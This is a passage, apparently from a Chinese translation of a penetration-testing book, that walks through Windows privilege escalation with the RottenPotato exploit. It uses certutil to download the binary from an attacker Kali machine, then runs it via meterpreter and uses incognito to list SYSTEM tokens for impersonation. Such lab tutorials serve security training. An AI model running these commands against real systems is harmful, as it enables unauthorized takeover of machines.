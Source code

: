     图 6.17 – 默认用户目录

    现在我们可以使用`certutil`工具从 Kali 虚拟机下载二进制文件到我们的目标系统。可以通过在目标系统上运行以下命令来完成：

    `certutil -urlcache -f http://<KALI-VM-IP>/rottenpotato.exe rottenpotato.exe`

    或者，我们也可以使用`meterpreter`上传`rottenpotato.exe`二进制文件。可以通过运行以下命令来实现：

    `upload /<BINARY-LOCATION>/rottenpotato.exe`

1.  根据使用程序的步骤，下一步是在`meterpreter`中加载`incognito`模块。可以通过运行以下命令来完成：

    `load incognito`

1.  在加载`incognito`模块后，我们现在可以执行`rottenpotato.exe`二进制文件。可以通过在`meterpreter`中启动 shell 会话，运行以下命令来完成：

    `shell`

    在目标系统上启动 shell 会话后，我们可以通过运行以下命令来执行`rottenpotato.exe`二进制文件：

    `.\rottenpotato.exe`

    如果漏洞利用成功，你应该会收到如下图所示的消息：

    ![图 6.18 – RottenPotato 漏洞利用成功    ](img/B17389_06_018.jpg)

    图 6.18 – RottenPotato 漏洞利用成功

1.  现在我们可以终止 shell 会话并返回到`meterpreter`会话，并列出可用于伪装的访问令牌。可以通过运行以下命令来实现：

    `list_tokens -u`

    如下图所示，这将列出我们可以伪装的所有可用用户令牌，从而提升我们的权限。在这种情况下，我们能够识别出具有委托安全级别的`NT AUTHORITY/SYSTEM`访问令牌：

    ![图 6.19 – 列出令牌    ](img/B17389_06_019.jpg)
